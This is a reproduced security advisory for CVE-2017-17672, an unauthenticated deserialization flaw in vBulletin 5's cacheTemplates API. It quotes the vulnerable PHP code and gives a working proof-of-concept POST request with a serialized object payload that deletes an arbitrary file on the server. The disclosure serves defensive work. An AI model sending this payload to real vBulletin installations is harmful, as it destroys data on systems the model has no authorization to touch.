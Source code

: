 # SSD Advisory – vBulletin cacheTemplates Unauthenticated Remote Arbitrary File Deletion
Source: https://blogs.securiteam.com/index.php/archives/3573

## Vulnerability Summary
The following advisory describes a unauthenticated deserialization vulnerability that leads to arbitrary delete files and, under certain circumstances, code execution found in vBulletin version 5.

vBulletin, also known as vB, is “a widespread proprietary Internet forum software package developed by vBulletin Solutions, Inc., based on PHP and MySQL database server. vBulletin powers many of the largest social sites on the web, with over 100,000 sites built on it, including Fortune 500 and Alexa Top 1M companies websites and forums. According to the latest W3Techs1 statistics, vBulletin version 4 holds more than 55% of the vBulletin market share, while version 3 and 5 divide the remaining percentage”.

## Credit
A security researcher from, TRUEL IT ( @truel_it ), has reported this vulnerability to Beyond Security’s SecuriTeam Secure Disclosure program.

## Vendor response
We tried to contact vBulletin since November 21 2017, repeated attempts to establish contact went unanswered. At this time there is no solution or workaround for these vulnerabilities.

CVE: CVE-2017-17672

## Vulnerability details
Unsafe usage of PHP’s unserialize() on user-supplied input allows an unauthenticated attacker to delete arbitrary files and, under certain circumstances, execute arbitrary code on a vBulletin installation.

vB_Library_Template’s cacheTemplates() function, which is an publicly exposed API which allows to fetch information on a set of given templates from the database in order to store them inside a cache variable.

File core/vb/api/template.php – function cacheTemplates():

```
public function cacheTemplates($templates, $templateidlist, $skip_bbcode_style = false,
$force_set = false)
{
return vB_Library::instance('template')->cacheTemplates($templates, $templateidlist, $skip_bbcode_style, $for
```

Let’s take a look at $templateidlist – core/vb/library/template.php – function cacheTemplates():

````
public function cacheTemplates($templates, $templateidlist, $skip_bbcode_style = false,
$force_set = false)
{
$vboptions = vB::getDatastore()
// vB_Library_Style::switchCssStyle() may pass us a templateidlist that's already unserialized.
if (!is_array($templateidlist))
{
  $templateidlist = unserialize($templateidlist);
}
foreach ($templates AS $template)
{
  if (isset($templateidlist[$template]))
  {
   $templateids[] = intval($templateidlist[$template]);
  }
}
if (!empty($templateids))
{
  $temps = vB::getDbAssertor(array('title', 'textonly', 'template_un', 'template'));
  // cache templates
  foreach ($temps as $temp)
  {
   if (empty(self::$templatecache["$temp[title]"]) OR $force_set)
   {
    self::$templatecache["$temp[title]"] = $this;
   }
  }
}
if (!$skip_bbcode_style)
{
  self::$bbcode_style = array(
   'code' => &$templateassoc['bbcode_code_styleid'],
   'html' => &$templateassoc['bbcode_html_styleid'],
   'php' => &$templateassoc['bbcode_php_styleid'],
   'quote' => &$templateassoc['bbcode_quote_styleid']
  );
}
}
```

$temnplateidlist variable, which can come directly from user-input, is directly supplied to unserialize(), resulting in an arbitrary deserialization primitive.

## Proof of Concept
By sending the following POST request an unauthenticated attacker can delete files from the victims server

```
POST /vb533/ajax/api/template/cacheTemplates HTTP/1.1
Host: vb533.test
Pragma: no-cache
Cache-Control: no-cache
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_0) AppleWebKit/537.36 (KHTML, like
Gecko) Chrome/61.0.3163.100 Safari/537.36
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,/;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: it-IT,it;q=0.8,en-US;q=0.6,en;q=0.4
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 125

templates[]=1&templateidlist=O:20:"vB_Image_ImageMagick":1:{s:20:"%00*%00imagefilelocation";s:13:"/path/to/file";}
```

The server then will respond with:

```
HTTP/1.1 200 OK
Date: Fri, 27 Oct 2017 09:27:52 GMT
Server: Apache/2.4.18 (Ubuntu)
Set-Cookie: sessionhash=409d8f4b16ebb55471e63509834d0eff; path=/; HttpOnly
Set-Cookie: lastvisit=1509096472; path=/; HttpOnly
Set-Cookie: lastactivity=1509096472; path=/; HttpOnly
Set-Cookie: sessionhash=44b1e8d2d433031ec2501649630dd8bf; path=/; HttpOnly
Cache-Control: max-age=0,no-cache,no-store,post-check=0,pre-check=0
Expires: Sat, 1 Jan 2000 01:00:00 GMT
Last-Modified: Fri, 27 Oct 2017 09:27:52 GMT
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 2101
Connection: close
Content-Type: application/json; charset=UTF-8

{"errors":[["unexpected_error","Cannot use object of type vB_Image_ImageMagick as array"]]}
```